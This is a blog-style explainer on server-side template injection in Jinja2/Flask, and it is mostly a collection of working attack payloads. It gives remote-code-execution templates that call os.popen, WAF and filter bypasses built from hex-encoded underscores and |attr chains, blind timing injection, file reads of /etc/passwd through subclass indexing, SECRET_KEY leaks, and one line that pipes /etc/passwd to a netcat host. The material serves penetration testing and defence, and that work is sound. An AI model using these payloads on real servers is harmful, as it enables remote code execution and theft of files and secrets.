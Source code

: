 ```yaml
---
title: SSTI-with Jinja2
published: 2025-09-10
description: 'Explain this Vulnerability'
image: ''
tags: []
category: 'VULNERABILITY'
draft: false 
lang: ''
---
```


# Understanding Server-Side Template Injection (SSTI)

## What is SSTI?

A **Server-Side Template Injection (SSTI)** occurs when user input is directly embedded and rendered within a template on the server. Templates are often used to make small changes to web pages without regenerating the entire HTML file for every request.

For example:

```html
<h1>Welcome to the page!</h1>
<u>This page is being accessed from the remote address: {{ip}}</u>
```

Here, the `{{ip}}` placeholder is dynamically replaced by the server with the visitor’s IP address.

If developers do not properly sanitize user input, an attacker may inject malicious template code. Many template engines (like **Jinja2**) support advanced logic, which attackers can abuse to execute arbitrary commands on the underlying server.

This can escalate to **Remote Code Execution (RCE)**.

---

## RCE Payloads in Jinja2

### Basic Payload
```jinja2
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```

### Bypassing WAF Filters

- **If “.” is blocked:**
```jinja2
{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('id')['read']()}}
```

- **If “.” and “_” are blocked:**
```jinja2
{{request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('id')['read']()}}
```

- **Full bypass (no `.`, `_`, `[]`, `|join`):**
```jinja2
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

---

## RCE Without `{{ }}`

Jinja2 allows multiple template delimiters beyond `{{}}`.

- **Using `{% %}` conditionals:**
```jinja2
{% if request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('whoami')['read']() == 'chiv\n' %} a {% endif %}
```

- **Blind Command Injection (via timing):**
```jinja2
{% if request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('sleep 5')['read']() == 'chiv' %} a {% endif %}
```

- **Exfiltrating data via HTTP:**
```jinja2
{% if request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('cat /etc/passwd | nc HOSTNAME 1337')['read']() == 'chiv' %} a {% endif %}
```

---

## Extracting Sensitive Data

- **Leak the secret key:**
```jinja2
{{config["SECRET_KEY"]}}
```

- **If `config` is blocked:**
```jinja2
{{self.__dict__}}
```

---

## Filter Bypasses

- **Format string trick:**
```jinja2
{{request|attr(request.args.f|format(request.args.a,request.args.a,request.args.a,request.args.a))}}&f=%s%sclass%s%s&a=_
```

This reconstructs `__class__` dynamically, bypassing filters.

---

## Listing Classes & Subclasses

```jinja2
{{OBJECT.__class__.mro().__subclasses__()}}
{{OBJECT.__class__.__mro__[1].__subclasses__()}}
```

Where `OBJECT` could be `g`, `request`, `config`, `application`, etc.

---

## Step-by-Step Payload Development

Example with `get_flashed_messages`:

```jinja2
{{get_flashed_messages}}
{{get_flashed_messages.__class__}}
{{get_flashed_messages.__class__.__mro__}}
{{get_flashed_messages.__class__.__mro__[1].__subclasses__()}}
{{get_flashed_messages.__class__.__mro__[1].__subclasses__()[40]('/etc/passwd').read()}}
```

---

## Encoding Tricks

- **Hex encoding filenames:**
```jinja2
{{''.__class__.__mro__[2].__subclasses__()[40]('\x2F\x65\x74\x63\x2F\x70\x61\x73\x73\x77\x64').read()}}
```

---

## Dot (`.`) WAF Bypass

- **Normal:**
```jinja2
{{ foo.bar }}
```

- **Bypass with brackets:**
```jinja2
{{ foo['bar'] }}
```

- **Bypass with `|attr`:**
```jinja2
{{ foo|attr('bar') }}
```

---

## Useful Flask Filters

- `join` → Joins a list into a string
- `safe` → Disables HTML escaping
- `attr` → Access attributes dynamically

Example:
```jinja2
{{['Thi','s wi','ll b','e appended']|join}}
```

Output:
```
This will be appended
```

---

## Inspecting Objects with `__dict__`

```jinja2
{{g.__class__.__mro__[1].__subclasses__()[289].__dict__}}
```

View only keys:
```jinja2
{{...__dict__.keys()}}
```

---

## Key Notes on Attribute Access in Jinja2

- `foo.bar`
  1. Check attribute `bar`
  2. Else, check `foo['bar']`

- `foo['bar']`
  1. Check item `'bar'`
  2. Else, check attribute

- `attr()` → Only checks attributes.

---

## Conclusion

SSTI vulnerabilities in frameworks like Flask (Jinja2) can easily escalate to **Remote Code Execution**, allowing attackers to steal sensitive information, exfiltrate files, and take full control of servers.

Understanding payload construction, filter bypasses, and encoding tricks is crucial for both attackers and defenders.

---

## References

- [Jinja2 Templates](https://jinja.palletsprojects.com/en/2.11.x/templates/)
- [PortSwigger: SSTI Research](https://portswigger.net/research/server-side-template-injection)
- [PayloadAllTheThings – SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [Flask Template Filters](https://jinja.palletsprojects.com/en/2.11.x/templates/#builtin-filters)
- [SecGus on Twitter](https://twitter.com/SecGus)
